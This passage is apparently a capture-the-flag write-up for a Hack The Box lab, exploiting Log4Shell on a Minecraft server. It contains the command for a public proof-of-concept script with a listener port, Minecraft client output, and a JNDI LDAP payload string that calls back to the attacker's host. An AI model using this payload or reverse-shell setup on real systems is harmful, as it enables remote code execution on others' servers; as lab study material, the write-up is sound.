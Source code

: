 ![](images/Pasted%20image%2020250717234830.png)
Then run the exploit script
```
python3 poc.py --userip 10.10.14.17 --webport 80 --lport 4444
```

To exploit `Log4Shell` on `Minecraft`, I need to send a specific message to the commands / chat function. To interact with the `Minecraft` server, I’ll need a client.
` Minecraft-Console-Client` would be a good choice for us
```
./MinecraftClient-20250522-285-linux-arm64 wither

Minecraft Console Client v1.20.4 - for MC 1.4.6 to 1.20.4 - Github.com/MCCTeam
GitHub build 285, built on 2025-05-22 from commit f785f50
Settings file MinecraftClient.ini has been generated.

MCC is running with default settings.
MCC uses Sentry to log errors. You can opt-out by setting the EnableSentry option in the configuration file to false.
Password(invisible): 
You chose to run in offline mode.
Server IP : 
Retrieving Server Info...
Server version : 1.16.5 (protocol v754)
[MCC] Version is supported.
Logging in...
[MCC] Server is in offline mode.
[MCC] Server was successfully joined.
Type '/quit' to leave the server.
>                             
```

Then we need to send `${jndi:ldap://10.10.14.17:1389/a}`, then we can get the feedback
```
┌──(wither㉿localhost)-[~/Templates/htb-labs/Crafty/log4j-shell-poc]
└─$ python3 poc.py --userip 10.10.14.17 --webport 80 --lport 4444


[!] CVE: CVE-2021-44228
[!] Github repo: https://github.com/kozmer/log4j-shell-poc

[+] Exploit java class created success
[+] Setting up LDAP server

[+] Send me: ${jndi:ldap://10.10.14.17:1389/a}

```
